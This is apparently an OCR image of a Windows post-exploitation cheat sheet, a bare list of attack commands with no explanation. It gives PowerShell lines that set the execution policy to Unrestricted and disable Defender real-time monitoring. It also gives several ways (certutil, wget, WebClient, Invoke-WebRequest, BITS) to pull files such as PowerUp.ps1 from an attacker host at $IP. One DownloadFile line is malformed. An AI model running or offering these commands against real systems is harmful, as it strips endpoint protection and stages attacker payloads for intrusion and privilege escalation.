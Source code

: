 # Command line
whoami /priv  



# Powershell
Get-ExecutionPolicy    
Set-ExecutionPolicy Unrestricted   
Set-MpPreference -DisableRealtimeMonitoring $true  


# File Transfer  
certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat   


powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out   
BITS (Background Intelligence Transfer Service)   
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://$IP:$PORT/file.bat -Destination C:\   

